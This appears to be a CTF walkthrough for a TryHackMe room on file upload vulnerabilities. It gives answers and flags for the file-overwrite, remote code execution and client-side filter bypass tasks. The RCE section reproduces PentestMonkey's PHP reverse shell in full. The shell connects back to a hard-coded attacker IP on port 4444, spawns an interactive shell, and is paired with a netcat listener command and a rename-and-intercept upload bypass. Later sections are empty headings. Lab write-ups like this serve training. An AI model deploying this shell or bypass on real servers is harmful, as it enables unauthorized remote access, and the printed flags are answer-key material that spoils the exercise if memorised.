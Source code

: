 # Upload Vulnerabilities

### Overwriting Existing Files
- What is the name of the image file which can be overwritten?
Navigate to `overwrite.uploadvulns.thm`. Open the page source code: <br />
![image](https://github.com/user-attachments/assets/442b3dce-5883-472f-ab13-cfe70ec3bf9e)<br />
`mountains.jpg`
- Overwrite the image. What is the flag you receive? <br />
Create a file named "mountains.jpg" and upload it to the web server to get the flag: `THM{OTBiODQ3YmNjYWZhM2UyMmYzZDNiZjI5}`

### Remote Code Execution
- Run a Gobuster scan on the website using the syntax from the screenshot above. What directory looks like it might be used for uploads? (N.B. This is a good habit to get into, and will serve you well in the upcoming tasks...) <br />
Navigate to `shell.uploadvulns.thm`. To run gobuster, use the following command: `gobuster dir -u http://shell.uploadvulns.thm -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt` <br />
![image](https://github.com/user-attachments/assets/ed3fa1c3-56a5-4258-807d-436ca32c700b)<br />
`/resources`
- Get either a web shell or a reverse shell on the machine. What's the flag in the /var/www/ directory of the server? <br />
Go to Revshell.com and copy to get a PHP reverse shell, I will use the one from PentestMonkey: <br />
```php
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP. Comments stripped to slim it down. RE: https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.11.85.53';
$port = 4444;
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; sh -i';
$daemon = 0;
$debug = 0;

if (function_exists('pcntl_fork')) {
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

chdir("/");

umask(0);

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?>
```
<br />
Upload it on the web server, and open a netcat listener on you attack box: `nc -lnvp 4444`. Then go to `http://shell.uploadvulns.thm/resources` and select the uploaded php reverse shell.<br />

![image](https://github.com/user-attachments/assets/4074a7d2-010b-4856-99da-b02f0d6f88a8)

`THM{YWFhY2U3ZGI4N2QxNmQzZjk0YjgzZDZk}`

### Filtering
- What is the traditionally predominant server-side scripting language? `PHP`
- When validating by file extension, what would you call a list of accepted extensions (whereby the server rejects any extension not in the list)? `Whitelist`
- [Research] What MIME type would you expect to see when uploading a CSV file? `text/csv`

### Bypassing Client-Side Filtering
- What is the flag in /var/www/? <br />
If we try to upload the same php shell as before, we get an error: <br />
![image](https://github.com/user-attachments/assets/1c023e3c-a47e-442e-828e-3df653b9544f)
Apparently the web server only allows .png files. But this is just a front-end filter, we can try to rename `revshell.php` to `revshell.php.png`, intercept the request on burpsuite and change the file name again: <br />
![image](https://github.com/user-attachments/assets/a6d2799a-687e-42f0-8479-26c73c15e6b4)
Now again create a reverse shell like before and get the flag at /var/www/flag.txt: `THM{NDllZDQxNjJjOTE0YWNhZGY3YjljNmE2}`

### Bypassing Server-Side Filtering: File Extensions
- What is the flag in /var/www/?

### Bypassing Server-Side Filtering: Magic Numbers
- Grab the flag from /var/www/

### Challenge
- Hack the machine and grab the flag from /var/www/
